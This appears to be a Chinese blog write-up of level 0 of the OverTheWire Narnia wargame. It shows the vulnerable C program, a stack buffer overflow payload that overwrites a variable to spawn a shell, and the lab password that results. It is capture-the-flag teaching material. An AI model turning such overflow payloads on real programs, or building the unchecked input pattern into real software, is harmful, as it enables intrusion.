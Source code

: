 ```yaml
---
layout: post
title:  "OverTheWireCrypton"
date:   2019-10-02 00:00:00 +0800
categories: 安全
tags: game
comments: true
mathjax: true
copyrights: 原创 未完待续
---
```


[https://overthewire.org/wargames/narnia/](https://overthewire.org/wargames/narnia/)

每关使用 ssh 连接

```shell
ssh -p 2226 narnia0@narnia.labs.overthewire.org
```

## Level 0–>Level 1

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

可以看到，有一个大小为 20 的 buf，我们需要通过输入溢出 buf 来覆盖 val 的值。

我们首先做一个简单的尝试：

```shell
$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAABCDE
buf: AAAAAAAAAAAAAAAAAAAABCDE
val: 0x45444342
WAY OFF!!!!
```

值得注意的是，val 的值为 `0x45444342`，即 EDCB。

```shell
/narnia$ python2 -c 'print "A"*20 + "\xef\xbe\xad\xde\x80"'
AAAAAAAAAAAAAAAAAAAAﾭހ
/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAAﾭހ
buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
$ cat /etc/narnia_pass/narnia1
eaa6AjYMBB
```
